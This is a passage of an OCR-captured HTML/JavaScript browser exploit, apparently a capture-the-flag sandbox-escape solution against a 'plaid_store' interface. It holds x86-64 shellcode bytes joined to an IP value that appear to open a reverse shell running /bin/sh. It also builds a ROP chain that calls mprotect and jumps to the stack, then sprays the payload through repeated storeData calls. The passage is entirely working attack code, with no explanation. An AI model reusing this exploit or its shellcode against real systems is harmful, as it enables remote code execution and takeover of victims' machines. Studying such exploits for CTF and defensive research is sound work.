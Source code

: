 ```html
        1, 106, 2, 95, 94, 72, 49, 210, 88, 15, 5, 72, 137, 199, 90, 88, 72,
        137, 230, 15, 5, 72, 49, 246, 176, 33, 15, 5, 72, 255, 198, 72, 131,
        254, 2, 126, 243, 72, 49, 192, 72, 191, 47, 47, 98, 105, 110, 47, 115,
        104, 72, 49, 246, 86, 87, 72, 137, 231, 72, 49, 210, 176, 59, 15, 5, 204];

      shellcode = prefix.concat(ip, suffix);
      var off = 0;

      pack_val(fake_rfh, off, vtable_loc);
      off += 8;
      pack_gad(fake_rfh, off, 0x04ee06een); // pop rcx ret
      off += 8;
      pack_val(fake_rfh, off, 0xfffffffffffff000n);
      off += 8;
      /* 0x08b23a67: and rdi, rcx ; or rax, rdi ; pop rbp ; ret  ; */
      pack_gad(fake_rfh, off, 0x08b23a67n); 
      off += 8;
      pack_val(fake_rfh, off, 0xdeadbeefn);
      off += 8;
      pack_gad(fake_rfh, off, 0x02d278d2n); // pop rsi ret;
      off += 8;
      pack_val(fake_rfh, off, 0x1000n);
      off += 8;
      pack_gad(fake_rfh, off, 0x0315ca12n); // pop rdx ret;
      off += 8;
      pack_val(fake_rfh, off, 0x7n);
      off += 8;
      pack_gad(fake_rfh, off, 0x02e9a831n); // pop rdx ret;
      off += 8;
      pack_val(fake_rfh, off, 0xan); // mprotect
      off += 8;
      pack_gad(fake_rfh, off, 0x06d300f7n); // syscall ret;
      off += 8;
      pack_gad(fake_rfh, off, 0x03352e4dn); // jmp rsp;
      off += 8;

      for (var i = 0; i < shellcode.length; ++i) {
        fake_rfh[off+i] = shellcode[i];
      }

      window.top.postMessage("done", "*");

      for (var i = 0; i < 0x100; ++i) {
        plaid_store.storeData(String.fromCharCode(i), fake_rfh);
      }
    }

    exploit();
  </script>
  </body>
</html>
```
